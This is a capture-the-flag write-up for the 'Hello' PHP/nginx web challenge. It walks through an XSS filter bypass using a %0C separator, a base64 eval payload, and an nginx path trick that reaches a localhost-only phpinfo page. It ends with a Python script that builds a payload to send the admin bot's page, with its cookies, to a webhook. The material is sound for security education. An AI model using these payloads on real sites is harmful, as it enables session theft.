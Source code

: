+++
title = 'Hello'
tags = [
  "Web",
  "php",
  "XSS",
  "133 points",
  "165 solves",
  "Abdelhameed Ghazy",
]
date = 2024-08-18T12:58:59+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Hello</h1>

**Description**: Just to warm you up for the next Fight :"D

## Introduction

Then we have an apparently empty page, but where we can via a ?name= parameter enter some text, the page will then respond with hello, {text entered}

The with an ngix server

Moreover, ctf in general gives us the possibility of using an admin bot where the flag is set in the cookies

## Source

```php
# filename: index.py

<?php


function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}


if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}

?>

```

```php
# filename: info.py

<?php
phpinfo();
?>

```

```ngix
# filename: ngix.conf


user www-data;
worker_processes 1;

events {
worker_connections 1024;
}

http {
include /etc/nginx/mime.types;
default_type application/octet-stream;

    sendfile        on;
    keepalive_timeout  65;

    server {
        listen       80;
        server_name  localhost;

        location / {
            root   /usr/share/nginx/html;
            index  index.php index.html index.htm;
        }

        location = /info.php {
        allow 127.0.0.1;
        deny all;
        }

        location ~ \.php$ {
        root           /usr/share/nginx/html;
        fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
        include fastcgi_params;
        fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
        }

    }

}
```

As you can see, there are 3 main files to focus on

1. The first is the index file where we see how the page works and the filters used, in particular the fact that we cannot use /, spaces, etc.
2. An info.php file which is definitely suspect and not normally needed but probably has a purpose in the challange
3. And the ngix configuration file, which is very important because it is the one that prevents us from accessing info.php in a simple way.

## Solution

This challenge is very nice in my opinion, neither too difficult nor too complex, it mixes different vulnerabilities in a really nice way...

The first one is designed to catch the cookie, because in the configuration of bot.js we see that the cookie is set to httpOnly, which makes the extraction much more difficult, but looking a little online we understand why it is present, that info.php in fact the function phpinfo() as well as showing several parameters of the php configuration and other information also shows the cookies present at that time... SO THAT'S THE OBJECTIVE, to get your own bot to open /info.php.

But how can we do this?

The first step is to be able to inject a payload that opens info.php and sends the file somewhere.

The only entry point we see is `? name='`, which is not sanitised in the best way, in fact by doing `<h1>BTC` (we make sure that the tag closes itself, otherwise the final / will be filtered out) we notice that the h1 is rendered and this is a first sign that we can do an xss, although we notice that the classic `<script>alert('ByteTheCookies')` doesn't work, Probably some php configuration or some police, so the xss would be a bit more complex, but we can use the `onerror` parameter of tag img with some modifications, in fact, if we insert a classic `<img src='invalid. jpg' onerror="alert('ByteTheCookies')"`, it will be sanitised by removing the spaces and will not allow the xss to run. But we can work around this very easily, in fact by looking for some workarounds on HackTricks and trying some of them, we find that the payload `<img%0Csrc="invalid.jpg"onerror="alert('ByteTheCookies')"` works.

GOOD we managed to bypass the xss now we have to create the payload we need...

Specifically, I used: `fetch('{target}').then(r=>r.text()).then(t=>{fetch('{url_webhook}',{method:'POST',body:(f=new FormData(),f.append('file',new Blob([t],{type:'text/plain'}),'phpinfo.txt'),f)});console.log('Data sended');});`

This payload makes an initial request and sends the content to a webhook in the form of a file, so it's all very simple.

However, the problem is that when this payload is sent, it will not work because the URLs contain / which will be removed and this is a significant problem.

However, to get around this we can use a very simple trick, we just need to encode the payload in base64 beforehand and use an `eval(atob(payload))`.

By sending this in the URL, we can make the payload work without any problems. DONE, RIGHT?

No, because analysing the nginx configuration we notice an important detail

```ngix
location = /info.php {
        allow 127.0.0.1;
        deny all;
        }
```

As we can see, /info.php is only accessible from localhost, and spoiler, our bot is not on the same server as the challenge.

This may seem like a big obstacle, but in reality, if we search the web for ngix workarounds, we can find something very [interesting](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm).

As we can see on Hacktricks, if we insert an accessible page immediately after a non-accessible page in the ngix URL, it will redirect us correctly to the non-accessible page, which is exactly what we need.

So the final solution becomes:

```python
# filename: exploit.py

import base64

url = "http://idek-hello.chal.idek.team:1337/"
url_webhook = 'https://webhook.site/8b10c871-1e0b-4050-8
2e3-e102a73da54e'
url_admin = 'https://admin-bot.idek.team/idek-hello'

def main():

    # Bypass hacktrics https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm
    target = "http://idek-hello.chal.idek.team:1337/info.php/index.php"

    exploit = ("fetch('" + target + "').then(r=>r.text()).then(t=>{fetch('"+url_webhook+"',{method:'POST',body:(f=new FormData(),f.append('file',new Blob([t],{type:'text/plain'}),'phpinfo.txt'),f)});console.log('Dati inviati al webhook');});").encode()

    main_payload = base64.b64encode(exploit).decode()

    payload = """<img%0Csrc="invalid.jpg"onerror="eval(atob('""" + main_payload + """'));">""" # Bypassed with %0C

    final_url_whith_exploit = f"{url}?name={payload}"

    print(f"Final url: {final_url_whith_exploit}") # Send the url on the admin bot and download the file on webhook.site

    print(f"Now copy and paste the url on the admin bot: {url_admin} and send the requeste to the admin bot, after this go to the webhook.site and download the file and search the flag in the file")

if __name__ == '__main__':
  main()

```

```stdout
$ flag: idek{Ghazy_N3gm_Elbalad}
```

<p align='right'>Author: akiidjk </p>
